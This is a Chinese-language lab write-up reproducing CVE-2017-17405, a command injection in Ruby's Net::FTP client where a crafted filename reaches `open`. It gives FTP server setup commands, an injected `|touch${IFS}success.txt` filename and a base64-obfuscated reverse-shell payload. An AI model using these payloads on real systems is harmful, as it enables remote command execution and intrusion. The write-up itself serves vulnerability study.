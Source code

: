 （CVE-2017-17405）Net::FTP 模块命令注入漏洞
===========================================

一、漏洞简介
------------

Ruby Net::FTP
模块是一个FTP客户端，在上传和下载文件的过程中，打开本地文件时使用了`open`函数。而在ruby中，`open`函数是借用系统命令来打开文件，且没用过滤shell字符，导致在用户控制文件名的情况下，将可以注入任意命令。

二、漏洞影响
------------

Ruby \< 2.4.3

三、复现过程
------------

因为这是一个FTP客户端的漏洞，所以我们需要先运行一个可以被访问到的服务端。比如使用python：

    # 安装pyftpdlib
    pip install pyftpdlib

    # 在当前目录下启动一个ftp服务器，默认监听在`0.0.0.0:2121`端口
    python3 -m pyftpdlib -p 2121 -i 0.0.0.0

然后即可开始利用漏洞。注入命令`|touch${IFS}success.txt`（空格用`${IFS}`代替，原因不表），发送如下数据包即可（其中uri指定的ftp服务器就是我用python运行的一个简单的ftp
server，其中无需放置任何文件）：

![1.png](./resource/(CVE-2017-17405)Net::FTP模块命令注入漏洞/media/rId24.png)

然后进入docker容器内，可见success.txt已被创建：

![2.png](./resource/(CVE-2017-17405)Net::FTP模块命令注入漏洞/media/rId25.png)

执行反弹shell的命令`|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA...}|{base64,-d}|{bash,-i}'`，成功反弹：

![3.png](./resource/(CVE-2017-17405)Net::FTP模块命令注入漏洞/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/ruby/CVE-2017-17405/
